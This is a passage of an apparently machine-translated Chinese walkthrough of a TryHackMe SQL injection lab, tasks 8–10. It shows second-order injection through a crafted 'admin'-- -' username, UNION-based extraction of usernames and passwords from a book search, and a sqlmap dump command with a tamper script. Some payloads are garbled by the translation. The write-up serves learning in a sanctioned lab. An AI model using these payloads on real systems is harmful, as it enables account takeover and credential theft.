*****最后增加“ **-T 用户—转储**”*****

```
***sqlmap --tamper so-tamper.py --url [http://10.10.224.106:5000/challenge4/signup](http://10.10.224.106:5000/challenge4/signup) --data "username=admin&password=asd" --second-url [http://10.10.224.106:5000/challenge4/notes](http://10.10.224.106:5000/challenge4/notes) -p username --dbms=sqlite --technique=U --no-cast **-T users --dump*****
```

**********

# *****任务 8:易受攻击的启动:更改密码*****

# *****目标*****

*****对于此挑战，注释页面上的漏洞已被修复。新的更改密码功能已经添加到应用程序中，因此用户现在可以通过导航到配置文件页面来更改他们的密码。新函数容易受到 SQL 注入攻击，因为 UPDATE 语句将用户名直接连接到 SQL 查询中，如下所示。这里的目标是利用易受攻击的功能来获取管理员帐户的访问权限。*****

# *****描述*****

*****开发人员为密码参数使用了一个占位符，因为该输入直接来自用户。用户名不是直接来自用户，而是根据存储在会话对象中的用户 id 从数据库中获取。因此，开发人员认为使用用户名是安全的，并将其直接连接到查询中，而不是使用占位符:*****

```
***UPDATE users SET password = ? WHERE username = '" + username + "'***
```

*****为了利用这个漏洞并获得管理员用户帐户的访问权限，我们可以创建一个名为`admin'-- -`的用户。*****

*****注册恶意用户后，我们可以更新新用户的密码来触发漏洞。更改密码时，应用程序执行两个查询。首先，它向数据库询问我们当前用户的用户名和密码:*****

```
***SELECT username, password FROM users WHERE **id** = ?***
```

*****如果所有检查都没问题，它将尝试为我们的用户更新密码。因为用户名直接连接到 SQL 查询中，所以执行的查询将如下所示:*****

```
***UPDATE users SET password = ? WHERE username = 'admin' -- -'***
```

*****这意味着应用程序没有更新`admin' -- -`的密码，而是更新了*管理员*的密码。更新密码后，可以使用新密码以管理员身份登录并查看标志。*****

# *****工作*****

*****创建一个新用户并利用更新密码功能中的漏洞来访问 admin 帐户以获取标志。*****

*****让我们用 **admin 创建新用户—:ASD*******

**********

*****现在登录到用户**admin’—:ASD*******

**********

*****登录后，转到个人资料页面，并通过此查询更改密码*****

*****旧密码= **asd*******

*****新密码= **通过*******

**********

*****是的，密码已更改，现在以管理员身份登录**管理员:通过*******

********************

*****嘣！我们有旗子*****

# *****任务 9:易受攻击的启动:书名*****

# *****目标*****

*****该页面增加了一个新功能，现在可以在数据库中搜索书籍。新的搜索函数易受 SQL 注入攻击，因为它将用户输入直接连接到 SQL 语句中。任务的目标是利用这个漏洞找到隐藏的标志。*****

# *****描述*****

*****当用户首次登录挑战时，会出现一条消息，提示他们:*****

```
***Testing a new function to search for books, check it out here***
```

*****“此处”文本是一个链接，将用户带到[http://10 . 10 . 141 . 207/challenge 6/book？title=test](http://10.10.141.207/challenge6/book?title=test) ，这是包含易受攻击的搜索功能的页面，可以在这里看到:*****

**********

*****当搜索一本书时，web 页面使用参数`title`执行 GET 请求。它执行的查询如下所示:*****

```
***SELECT * from books WHERE **id** = (SELECT **id** FROM books WHERE title like '" + title + "%')***
```

*****我们需要做的就是在 LIKE 操作符的右边关闭 LIKE 操作数。例如，我们可以通过注入以下命令来转储数据库中的所有书籍:*****

```
***') or 1=1-- -***
```

# *****工作*****

*****使用你所知道的关于 SQL 注入联盟的知识，利用易受攻击的图书搜索功能来检索旗帜。*****

*****创建新用户 **sam2:asd*******

*****并登录帐户*****

**********

*****我们可以通过注入以下命令来转储数据库中的所有书籍:*****

```
***') or 1=1-- -***
```

**********

*****在事先不知道列数的情况下，攻击者必须首先通过系统地注入具有不同列数的查询来枚举列数，直到显示错误。例如:*****

*****尝试每一个有效载荷*****

```
***') order by 1-- -
') order by 2-- -
') order by 3-- -
') order by 4-- -
') order by 5-- -***
```

**********

*****当我尝试的时候*****

```
***') order by 5-- -***
```

**********

*****它没有向我显示任何东西，这意味着这是攻击者的错误*****

*****这意味着在数据库中只有 4 列*****

*****让我们检查一下有多少列容易受到攻击，为此我们使用了 **UNION SELECT*******

```
***') union select 1,2,3,4-- -***
```

**********

*****查询显示第 3 列是易受攻击的 **{2，3，4}** 位置*****

*****让我们从数据库中获取信息*****

*****如果你了解 mysql，你可以很容易理解这个查询*****

```
***') union select 1,group_concat(username),group_concat(password),4 from users-- -***
```

**********

# *****任务 10:易受攻击的启动:书名 2*****

# *****目标*****

*****在这个挑战中，应用程序在过程的早期执行查询。然后，它在第二个查询中使用第一个查询的结果，而不进行清理。这两个查询都容易受到攻击，第一个查询可以通过盲 SQL 注入被利用。然而，由于第二个查询也是易受攻击的，所以可以简化利用并使用基于联合的注入来代替基于布尔的盲注入；使开发更容易，噪音更小。任务的目标是在不使用盲 SQL 注入的情况下滥用此漏洞并取回旗帜。*****

# *****描述*****

*****当用户首次登录挑战时，会出现一条消息，提示他们:*****

```
***Testing a new function to search for books, check it out here***
```

*****“此处”文本是一个链接，将用户带到[http://10 . 10 . 141 . 207:5000/challenge 7/book？title=test](http://10.10.141.207/challenge7/book?title=test) ，这是包含易受攻击的搜索功能的页面，可以在此处看到:*****

**********

*****当搜索书名时，网页执行 GET 请求。然后应用程序执行两个查询，第一个查询获取书的 ID，然后在这个过程的后面，执行一个新的 SQL 查询来获取关于书的所有信息。这里可以看到两个查询:*****

```
***bid = db.sql_query(f"SELECT id FROM books WHERE title like '{title}%'", one=True)if bid:query = f"SELECT * FROM books WHERE id = '{bid['id']}'"***
```

*****首先，我们将结果限制为零行，这可以通过不给它任何输入或我们知道不存在的输入来实现。然后，我们可以使用 UNION 子句来控制第一个查询返回的内容，即第二个查询将使用的数据。这意味着我们可以在搜索字段中注入以下值:*****

```
***' union select 'STRING***
```

*****注入上述代码后，应用程序将执行以下 SQL 查询:*****

**********

*****从查询中，我们可以看到第一个查询的结果是 STRING%，它用在第二个查询的 WHERE 子句中。*****

*****如果我们用数据库中存在的数字替换' STRING ',应用程序应该返回一个有效的对象。但是，应用程序在字符串中添加了通配符(%)，这意味着我们必须首先注释掉通配符。可以通过在我们注入的字符串末尾附加'—'来注释掉通配符。例如，如果我们注入以下代码行:*****

```
***' union select '1'-- -***
```

*****应用程序应该向用户显示 ID 为 1 的图书，如下所示:*****

**********

*****如果我们没有首先将结果限制为零行，我们就不会得到 UNION 语句的输出，而是会得到 LIKE 子句的内容。例如，通过注入以下字符串:*****

```
***test' union select '1'-- -***
```

*****应用程序将执行以下查询:。*****

**********

*****现在我们已经完全控制了第二个查询，我们可以使用基于联合的 SQL 注入从数据库中提取数据。目标是使第二个查询类似于以下查询:*****

```
***SELECT * FROM books WHERE **id** = '' union select 1,2,3,4-- -***
```

*****让应用程序执行上面的查询应该和注入下面的查询一样简单:*****

```
***' union select '1' union select 1,2,3,4-- -***
```

*****但是，我们通过在第二个 UNION 子句前附加单引号(')来结束应该返回的字符串。为了使查询有效并返回第二个 UNION 子句，我们必须对单引号进行转义。对单引号进行转义可以通过将引号(')对折来完成。将引号加倍后，我们得到以下字符串:*****

```
***' union select '-1''union select 1,2,3,4-- -***
```

*****注入上面的字符串将返回如下所示的页面:*****

**********

# *****工作*****

*****使用你所了解的关于 SQL 注入联盟的知识，利用易受攻击的图书搜索功能来检索旗帜*****

```
***' union select '-1''union select 1,group_concat(username),group_concat(password),4 from users-- -***
```

**********

*****嘣！我们拿到最后一面旗了*****

*****你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)*****

**********

*****如需更多演练，请在出发前继续关注…
…*****

*****访问我的其他演练:-*****

*****感谢您花时间阅读我的演练。
如果您觉得有帮助，请点击👏按钮👏(高达 40 倍)并分享
它来帮助其他有类似兴趣的人！+随时欢迎反馈！**********